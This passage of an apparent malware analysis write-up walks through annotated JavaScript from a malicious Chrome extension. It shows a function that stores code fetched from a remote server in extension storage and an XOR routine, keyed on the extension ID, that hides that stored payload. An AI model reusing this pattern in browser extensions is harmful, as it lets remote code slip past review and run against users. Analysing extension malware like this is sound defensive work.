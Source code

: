 ```javascript
    b.open('GET', c, !0);
    b.send()
  } catch (f) {
    return 'exception'
  }
}

// RAIN: "Save Remote Server Code"
function SvRmtSvrCd(a) {
  if (20 < a.length && a.includes('svrdpcds')) {
    loderlog('suc shuaxin');  // RAIN: "Successfully refreshed"
    var b = a.search('`'),
    c = a.substring(0, b);
    a = a.substring(b + 1);
    b = { };
    b.dipLstSig666 = c;  // RAIN: Version date
    b.dipLstLd666 = (new Date).getTime();  // RAIN: Load time
    b.dipLstCd666 = repitoff(a);  // RAIN: Encrypt payload
    b.dipLstCd66 = ''
  } else b = { };
  b.dipLstLd666 = (new Date).getTime();  // RAIN: Load time
  chrome.storage.local.set(b)
}
```

The script is encrypted with a simple XOR cipher with a transformation of the extension's ID as a key. Based on this extension's ID, the value of num will be 2393.

[***Scripts/2.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js): [repitoff()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js#L121), [xor_str()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js#L126), [randomize()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js#L111)

```javascript
// RAIN: Reformatted for clarity
function repitoff(message) {
  var num = randomize(chrome.runtime.id);  // RAIN: 2393
  return xor_str(message, num)
}

function xor_str(message, num) {
  var c = '';
  for (i = 0; i < message.length; ++i) c += String.fromCharCode(num ^ message.charCodeAt(i));
  return c
}

function randomize(a) {
  a = a.split('').reduce(function (a, c) {
    a = (a << 5) - a + c.charCodeAt(0);
    return a & a
  }, 0);
  0 > a && (a = 0 - a);
  window.chrome && (a %= 10000);
  return a
}
```
